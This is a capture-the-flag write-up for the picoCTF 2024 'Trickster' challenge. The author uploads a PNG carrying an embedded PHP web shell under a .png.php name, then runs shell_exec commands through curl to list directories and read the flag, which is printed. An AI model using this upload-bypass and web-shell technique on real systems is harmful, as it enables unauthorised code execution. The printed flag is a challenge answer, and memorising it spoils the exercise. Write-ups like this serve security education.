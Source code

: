 # Trickster Writeup

Points: 300<br>
Challenge Author: Junias Bonou

Description:<br>
I found a web app that can help process images: PNG images only!

## Solution

In this challenge, we are presented with a webpage where we can upload png files that get processed.<br>
First, I tried uploading an arbitrary file. The error I got was useful, since it told me that the filname must contain .png (but not necessarily be a png file?)<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/896b9f94-5904-40eb-9e23-a0603f0c5c20)

Next, I uploaded a bogus file with .png at the end - No luck, some checks seem to be in place.<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/9f66320b-2101-4204-82f7-d6c8f41ade4c)

After some google-fu, I found the below (access via archive as original cert expired so the page wasn't accessible at the moment I wrote this):
https://web.archive.org/web/20240118041532/https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

Using the provided file, I changed its name name to explit.png.php to see if we could get away with this so it directly gets interpreted and executed as PHP.<br>
Finally, the moment of truth: sending the request to see if we successfully injected code (the file being stored in /uploads was a lucky guess, I admit it).<br>
```curl http://atlas.picoctf.net:58719/uploads/exploit.png.php?0=shell_exec --data "1=ls" --output - && echo```<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/5b269bc9-6723-450f-8d11-1c2eec399b9f)

While we can see that this lists the files uploaded, it doesn't show anything really interesting yet... So, another payload:<br>
```curl http://atlas.picoctf.net:58719/uploads/exploit.png.php?0=shell_exec --data "1=cd ..;ls" --output - && echo```<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/8ce77e41-ba20-4a0a-a210-e636386026f2)

In this directory, we can see more files. Especially the first one (GAZWIMLEGU2DQ.txt) seems interesting, so let's see what it contains!
```curl http://atlas.picoctf.net:58719/uploads/exploit.png.php?0=shell_exec --data "1=cd ..;cat GAZWIMLEGU2DQ.txt" --output - && echo```<br>
And there is our flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/326eeaeb-b3e9-47f6-8dcb-0b3725218819)
